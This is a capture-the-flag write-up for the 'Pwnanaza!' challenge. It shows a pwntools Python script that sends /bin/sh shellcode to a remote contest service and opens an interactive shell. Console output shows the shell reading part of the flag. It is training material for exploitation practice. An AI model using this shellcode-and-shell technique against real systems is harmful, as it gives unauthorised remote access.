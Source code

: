 **Pwnanaza! - Pwn (100)**

We have captured three androids. Use them to practice your pwning.

nc pwn2.sect.ctf.rocks 3000
nc pwn2.sect.ctf.rocks 3001
nc pwn2.sect.ctf.rocks 3002
[pwnanaza.tar.gz](https://www.dropbox.com/s/9ih9mgjrirf6can/pwnanaza.tar.gz?dl=1)


Solves: 26

Author: @likvidera


The file contains the three binaries *pwn_x86*, *pwn_x64* and *pwn_arm32*
which are the binaries you interact with when connecting to the ports.

No reverse engineering is needed, just do what the binary tells you:

./pwn_x86
[*] Intel-x86 Module
[!] Enter your hex-encoded shellcode:

So it wants a *hex-encoded* shellcode. The easiest way to send
shellcode to a port is with [pwntools](https://docs.pwntools.com/en/stable/).

Pwntools has a function **shellcraft.sh()** that generates assembly code
for a shellcode that gives a shell. To actually get the binary
shellcode assemble it with the **asm()** function from pwntools. Use the
**context()** function to specify architecture and OS.

Now it told us to give it hex-encoded shellcode, so use the **enhex()**
function on each byte in the shellcode and send the result. If
succesful the **interactive()** function should let you interact with the shell.


```python
from pwn import *

context(arch = 'i386', os = 'linux')

host = 'pwn2.sect.ctf.rocks'
port = 3000

conn = remote(host, port)
lines = conn.recvuntil('shellcode:')
print lines

asmshellcode = shellcraft.sh()
shellcode = asm(asmshellcode)
s = ''
for b in shellcode:
    s += enhex(b)

conn.send(s + '\r\n')

conn.interactive()
conn.close()
```

And run it:

	$ python pwn.py
	[+] Opening connection to pwn2.sect.ctf.rocks on port 3000: Done
	[*] Intel-x86 Module
	[!] Enter your hex-encoded shellcode:
	[+] Running your shellcode!

	[*] Switching to interactive mode
	$ ls
	flag
	pwn_x86
	$ cat flag
	SECT{f0LL
	$  

That gives the first third of the flag. Repeat for x64, just replace
the port number and replace *arch = 'i386'* with *arch = 'amd64'*. Lastly arm32 wants
**context(arch = 'arm', bits = 32, os = 'linux')**.

Pwntools really is the shit for these kind of challs.
